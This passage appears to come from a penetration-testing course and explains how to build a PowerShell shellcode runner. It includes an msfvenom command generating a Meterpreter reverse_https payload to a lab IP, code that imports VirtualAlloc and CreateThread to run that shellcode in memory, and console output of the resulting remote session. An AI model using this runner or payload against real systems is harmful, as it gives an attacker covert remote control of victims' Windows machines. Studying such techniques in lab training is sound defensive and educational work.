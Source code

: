 > Listing 34 - Using P/Invoke and Add-Type to import VirtualAlloc and CreateThread

Note that we used _Here-Strings_ to assign a block of text to the _$Kernel32_ variable. We also created the import statements in the public _Kernel32_ class so we can reference it and compile it later.

Next we must supply the required shellcode, which we'll again generate with _msfvenom_. This time, we'll use the _ps1_ output format:

```
kali@kali:~$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 EXITFUNC=thread -f ps1
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 800 bytes
Final size of ps1 file: 3924 bytes
[Byte[]] $buf = 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x0...
```

> Listing 35 - Creating shellcode in ps1 format

Armed with the shellcode, we can copy the _$buf_ variable and add it to our code. We'll also start setting the API arguments:

```
[Byte[]] $buf = 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x0...

$size = $buf.Length

[IntPtr]$addr = [Kernel32]::VirtualAlloc(0,$size,0x3000,0x40);

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)

$thandle=[Kernel32]::CreateThread(0,0,$addr,0,0,0);
```

> Listing 36 - Shellcode runner in PowerShell

We invoked the imported _VirtualAlloc_ call with the same arguments as before. These include a "0" to let the API choose the allocation address, followed by the detected size of the shellcode and the hexadecimal numbers 0x3000 and 0x40 to set up memory allocation and protections correctly.

We used the .NET _Copy_ method to copy the shellcode, supplying the managed shellcode array, an offset of 0 indicating the start of the buffer, the unmanaged buffer address, and the shellcode size.

Finally, we called _CreateThread_, supplying the starting address.

If we run this code from PowerShell ISE, we get a reverse shell. Nice!

```
[*] Started HTTPS reverse handler on https://192.168.119.120:443
[*] https://192.168.119.120:443 handling request from 192.168.120.11; (UUID: pm1qmw8u) Staging x64 payload (207449 bytes) ...
[*] Meterpreter session 1 opened (192.168.119.120:443 -> 192.168.120.11:49678)

meterpreter > 
```
